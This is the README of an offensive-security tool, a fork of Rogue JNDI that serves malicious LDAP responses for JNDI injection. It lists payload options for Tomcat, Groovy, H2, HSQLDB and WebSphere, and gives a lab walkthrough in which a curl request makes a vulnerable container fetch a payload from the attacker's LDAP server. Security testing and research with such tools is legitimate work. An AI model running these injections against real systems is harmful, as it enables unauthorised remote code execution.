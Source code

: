 # ROGUE JNDI NG
<img src="resources/logo.webp" alt="A bug sitting on top of a Stormtrooper helmet" height="640" width="640" style="border-radius: 14%; overflow: hidden;">

A modern fork of [Rogue JNDI](https://github.com/artsploit/rogue-jndi), which is "a malicious LDAP server for JNDI injection attacks".

## Description
Rogue JNDI is a great tool in the realm of JNDI exploitation. Our fork adds many features in order to keep it relevant for modern Java environments.

You can read about the full extent of our improvements in our [blog post](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/), but here's a summary:
+ Support for Tomcat version >=10
+ Support for Java version >= 15
+ Users can provide whole script files instead of single OS commands
+ Endpoint for serving generic deserialization payloads
+ New endpoint for exploiting H2 
+ New endpoint for exploiting HSQLDB
+ The usage of [Testcontainers](https://github.com/testcontainers/testcontainers-java) for integration tests (also useful for manual testing, e.g. custom scripting payloads)

> [!NOTE]
> For a general overview, please refer to the original [README](https://github.com/artsploit/rogue-jndi/blob/master/README.md)

## Building
The project uses Maven and can be build with something like:
```shell
mvn clean package
```
This creates a `/target` folder where the `RogueJNDI-X.X.X.jar` file resides. 

## Usage
After building, you can run the following command to see all the options:
```
$ java -jar target/RogueJndi-1.1.jar -h
        __________ ________    ________ ____ ______________      ____._______  ________  .___   _______    ________ 
        \______   \\_____  \  /  _____/|    |   \_   _____/     |    |\      \ \______ \ |   |  \      \  /  _____/ 
         |       _/ /   |   \/   \  ___|    |   /|    __)_      |    |/   |   \ |    |  \|   |  /   |   \/   \  ___ 
         |    |   \/    |    \    \_\  \    |  / |        \ /\__|    /    |    \|    `   \   | /    |    \    \_\  \
         |____|_  /\_______  /\______  /______/ /_______  / \________\____|__  /_______  /___| \____|__  /\______  /
                \/         \/        \/                 \/                   \/        \/              \/        \/


Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command          Command to execute on the target server (default: 
                           touch /usr/local/tomcat/temp/pwn.txt)
    -n, --hostname         Local HTTP server hostname (required for remote 
                           classloading and websphere payloads) (default: 
                           127.0.0.1) 
    -l, --ldapPort         Ldap bind port (default: 1389)
    -p, --httpPort         Http bind port (default: 8000)
    --wsdl                 [websphere1 payload option] WSDL file with XXE 
                           payload (default: /list.wsdl)
    --localjar             [websphere2 payload option] Local jar file to load 
                           (this file should be located on the remote server) 
                           (default: 
                           ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2                   [H2 database init script file (default: /h2)
    --js-payload-path      [Tomcat Nashorn payload option] Path to a .js file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --jshell-payload-path  [Tomcat JShell payload option] Path to a .java file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --groovy-payload-path  [Groovy payload option] Path to a .groovy file 
                           containing the payload served by the Groovy 
                           controller, overwrites the -c option (default: 
                           <empty string>)
    --generic-payload-path [Generic controller option] Path to a file 
                           containing a serialized object served by the 
                           Generic controller, overwrites the -c option 
                           (default: <empty string>)
    --jdbc-url             [HSQLDB controller option] JDBC URL pointing to an 
                           HSQL database (default: <empty string>)
    -h, --help             Show this help
```

## Example usage with custom JShell script.
First, start the test container:
```shell
docker run -it -p 8080:8080 ghcr.io/thegebirge/jndi-outcast/tomcat-10-jshell:latest
```

After cloning and building the project, start the server:
```shell
java -jar target/RogueJndi-1.1.jar --jshell-payload-path "/path/to/cloned/repo/rogue-jndi-ng/src/main/resources/payload.java"
```

Now you only need to make a request to the vulnerable servlet inside the container:

```shell
curl "http://localhost:8080/tomcat-10-jshell-1.0-SNAPSHOT/lookup?resource=ldap://host.docker.internal:1389/o=tomcat10-jshell"
```

## Demo
This demo uses our example JShell payload (`/src/main/resources/payload.java`):

## Resources and Acknowledgements
+ Michael Stepankin for creating the original Rogue JNDI
+ His article about JNDI exploitation:
  https://www.veracode.com/blog/research/exploiting-jndi-injections-java
+ BlackHat talk of Alvaro Muñoz and Oleksandr Mirosh:
  https://www.youtube.com/watch?v=Y8a5nB-vy78
+ Their BlackHat paper:
  https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
+ Article that includes a rough timeline of JDNI vulnerabilities by Moritz Bechler:
  https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection
+ Our previous article about Java 17 deserialization:
  https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl